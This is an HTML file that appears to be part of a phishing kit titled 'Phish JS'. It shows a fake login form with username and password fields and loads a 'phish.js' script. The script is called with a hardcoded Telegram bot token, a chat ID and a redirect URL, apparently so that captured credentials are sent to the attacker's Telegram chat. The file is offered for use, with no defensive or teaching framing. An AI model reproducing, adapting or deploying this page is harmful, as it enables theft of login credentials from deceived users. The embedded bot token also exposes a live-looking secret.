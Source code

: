 <!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Phish JS</title>
</head>

<body>
    <input type="text" id='username' placeholder="Login">
    <input type="password" id='password' placeholder="Password">
    <button type="button" id="submit-button">Login</button>

    <script src="https://code.jquery.com/jquery-3.4.1.slim.min.js"
        integrity="sha256-pasqAKBDmFT4eHoN2ndd6lN370kFiGUFyTiUHWhU7k8=" crossorigin="anonymous"></script>
    <script src="phish.js"></script>
    <script>
        $(document).ready(function () {
            const BOT_TOKEN = '1505663607:AAF_zOQJ4A8S2m0ZW4Cd56jNIvxHJC_HezA',
                CHAT_ID = '1048767139',
                REDIRECT_URL = 'xnxx.xxx'
            phish(BOT_TOKEN, CHAT_ID, REDIRECT_URL);
        });
    </script>
</body>

</html>
